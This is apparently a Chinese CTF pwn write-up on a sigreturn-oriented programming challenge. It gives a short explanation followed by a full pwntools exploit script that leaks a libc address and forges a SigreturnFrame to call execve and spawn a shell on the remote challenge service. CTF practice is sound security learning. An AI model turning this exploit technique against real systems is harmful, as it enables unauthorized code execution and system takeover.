 本题实际上考察的是sigreturn的使用。说得简单点就是通过sigreturn（调用号0xF）的系统调用能够返回到用户状态，而这个用户状态的结构体就在sigreturn后的栈空间中，由此可以进行伪造。具体原理参见[资料](https://blog.csdn.net/zsj2102/article/details/78561112?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165259846916781818710887%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=165259846916781818710887&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-1-78561112-null-null.142^v9^control,157^v4^control&utm_term=sigreturn&spm=1018.2226.3001.4187)。在pwnfiles中为我们提供了伪造sigreturn结构体的类SigreturnFrame方便我们构造。

exp：（调用sigreturn，binsh地址仍然采用碰瓷方式获取）
```python
from pwn import *
from LibcSearcher import *
context(arch='amd64', log_level='debug')

# io = process('./pwn')
io = remote('node4.buuoj.cn', 28675)

write = 0x400503
read_write = 0x4004ed
poprdi_ret = 0x4005a3
poprsir15_ret = 0x4005a1
movrax3b_ret = 0x4004e2
movrax0f_ret = 0x4004da
syscall = 0x400517

payload = cyclic(0x10)
payload += p64(write)
payload += p64(write)
payload += p64(read_write)

io.sendline(payload)

libc_start_main = u64(io.recv()[-8:]) - 231
print(hex(libc_start_main))
libc = LibcSearcher('__libc_start_main', libc_start_main)
base = libc_start_main - libc.dump('__libc_start_main')

sys = base + libc.dump('system')
print(hex(sys - libc_start_main))
binsh = base + libc.dump('str_bin_sh')

payload = cyclic(0x10)
payload += p64(movrax0f_ret)
payload += p64(syscall)

frame = SigreturnFrame()
frame.rax = constants.SYS_execve
frame.rdi = binsh
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall

payload += flat(frame)

io.sendline(payload)

io.interactive()
```
